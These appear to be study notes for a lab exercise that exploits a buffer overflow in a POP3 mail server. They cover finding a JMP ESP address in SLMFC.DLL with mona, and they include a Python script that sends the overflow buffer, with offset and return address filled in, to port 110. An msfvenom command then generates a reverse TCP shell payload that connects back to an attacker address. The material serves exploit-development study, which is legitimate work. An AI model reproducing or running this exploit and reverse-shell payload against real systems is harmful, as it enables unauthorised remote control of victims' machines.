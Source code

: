JMP ESP

### Introducing the Mona script

* in Immunity Debugger

Criteria
* No memory detections be present
  * ASLR
  * DEP
* Memory range does not contain bad chars

SLMFC.DLL
* need to find a JMP ESP in this DLL

nasm_shell.rb

find opcode with mona

`!mona find -s "\xff\xe4" -m slmfc.dll`


```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * (3500-2606-4)


try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

* Place breakpoint at the memory address

* points to the beginning of Cs in buffer

### Shellcode

* shellcode payload generator from metasploit

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

* IP is of attacker
* -f c is for C
* -a for x86/x64
* --platform windows
* -e encoder
